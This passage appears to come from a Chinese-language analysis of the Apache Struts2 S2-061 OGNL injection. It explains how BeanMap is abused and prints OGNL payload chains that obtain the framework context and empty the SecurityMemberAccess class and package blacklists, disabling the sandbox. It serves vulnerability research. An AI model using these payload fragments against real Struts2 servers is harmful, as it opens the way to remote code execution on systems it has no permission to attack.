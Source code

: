 <img src="pic/struts2_s2-061_7.png">

而`BeanMap#get()`则是获取当前`bean`的指定的`getter`方法。

便可使用以下表达式获取上下文对象`context`：
```
(#instancemanager=#application['org.apache.tomcat.InstanceManager']).
(#stack=#request['struts.valueStack']).
(#bean=#instancemanager.newInstance('org.apache.commons.collections.BeanMap')).
(#bean.setBean(#stack)).
(#context=#bean.get('context'))
```

然后使用同样的方式来获取上下文`context`对象中的安全管理器对象`SecurityMemberAccess`，即安全沙盒的主要实现类。并使用`BeanMap#put()`方法实现黑名单的置空操作。即：
```
(#macc=#bean.get('memberAccess')).
(#bean.setBean(#macc)).
(#emptyset=#instancemanager.newInstance('java.util.HashSet')).
(#bean.put('excludedClasses',#emptyset)).
(#bean.put('excludedPackageNames',#emptyset))
```
